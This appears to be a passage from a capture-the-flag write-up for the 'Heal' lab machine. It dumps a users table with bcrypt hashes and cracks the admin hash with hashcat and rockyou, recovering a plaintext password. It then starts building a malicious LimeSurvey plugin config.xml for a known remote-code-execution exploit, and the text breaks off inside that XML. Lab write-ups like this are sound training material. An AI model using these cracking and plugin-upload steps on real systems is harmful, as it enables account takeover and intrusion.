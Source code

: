 ```zsh
❯ sqlite3 heal.sqlite3
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
ar_internal_metadata  token_blacklists    
schema_migrations     users               
sqlite> select * from users;
1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|2024-09-27 07:49:31.614858|2024-09-27 07:49:31.614858|Administrator|ralph|1
2|11@11.11|$2a$12$4M26GREHhkPjFZqNbV1aqemhYeiEoO1xwBPW.iRSbgJxhmnp/k3Nu|2024-12-20 15:43:49.319920|2024-12-20 15:43:49.319920|11|11|0
3|test@test.test|$2a$12$omhxCyWvynOeh7RSgJaKUO7h024ZSDUDqSEzsgZ5LVrfTKdR.qu/q|2024-12-20 17:16:06.120235|2024-12-20 17:16:06.120235|test|test|0
4|atreus@atreus.com|$2a$12$Idm2JFSmNqYXYYE1.k5ggeWei49QzfDiFG/laob7Tj3XrpvRxhm4m|2024-12-20 20:06:54.081985|2024-12-20 20:06:54.081985|atreus|atreus|0
5|t2p@heal.htb|$2a$12$cbowyND08zm9pX4dx/.wV.8kuaWdYq5Hlh8CYukYXT3g1kW4Q4eM2|2024-12-21 01:38:11.749980|2024-12-21 01:38:11.749980|t2pp2p|t2pp2p|0
6|gyatt@sigma.com|$2a$12$6ggdfoDj.aMXowY7pO3GjelmpY4iAw83YEawDkxljxhNDWUZRVwwO|2024-12-21 02:14:35.255985|2024-12-21 02:14:35.255985|skbi|e|0
7|e@e.e|$2a$12$j0OQu4I1bgOfBR8744SCnOvcs8o.UCjiVHVPEwjI2n.rfw1.jjiVu|2024-12-21 02:47:04.187889|2024-12-21 02:47:04.187889|e|r|0
```

It handles the admin user's password, but at a glance we can immediately recognize it as `bcrypt`.

```zsh
❯ cat hash | xargs -n 1 hashid

Analyzing '$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```
```zsh
❯ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt --show
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
```

I tried ssh with user `ron` but it failed. So now I'll go back to the previous login page where we found `ralph:147258369`.

![[Pasted image 20241221125013.png]]

### <span style="color: #3498eb;">Foot hold</span>

I found the exploit documentation for [LimeSurvey Community Edition Version 6.6.4][https://community.limesurvey.org/]
+ https://ine.com/blog/cve-2021-44967-limesurvey-rce
+ https://github.com/Y1LD1R1M-1337/Limesurvey-RCE

First create a `config.xml` file and change its version to 6.6.4

```xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>rev</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>6.6.4</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
```